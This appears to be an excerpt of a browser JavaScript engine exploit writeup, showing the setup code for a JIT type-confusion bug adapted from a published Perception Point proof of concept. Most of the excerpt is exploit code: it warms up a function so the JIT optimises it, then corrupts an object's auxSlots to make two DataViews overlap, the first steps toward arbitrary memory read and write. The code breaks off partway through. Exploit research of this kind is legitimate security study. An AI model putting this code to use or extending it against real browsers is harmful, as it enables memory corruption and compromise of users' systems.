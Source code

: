 ## Setup

We first setup the four objects that we need `o`, `obj`, `dv1`, `dv2`. I'll use Perception Point terminology because they included a PoC exploit which can be adapted to this bug

You can diff the two scripts to get the differences

```javascript
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

dv1 = new DataView(new ArrayBuffer(0x100));
dv2 = new DataView(new ArrayBuffer(0x100));

BASE = 0x100000000;

function hex(x) {
    return "0x" + x.toString(16);
}

function opt(o, c, value) {
    o.b = 1;

    let temp = {__proto__: c};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};
  
    opt(o, o, obj); // o->auxSlots = obj (Step 1)

    /* 
      chqmatteo: so we set o.c but it can be any name you want, 
      it's just the third property of o
      so it will get written to o->auxSlots[2]
      similary obj.h is the 8th property of obj so we will write to obj->auxSlots[7]
      and buffer is at that offset
     */
    o.c = dv1; // obj->auxSlots = dv1 (Step 2)
    obj.h = dv2; // dv1->buffer = dv2 (Step 3)
    
```
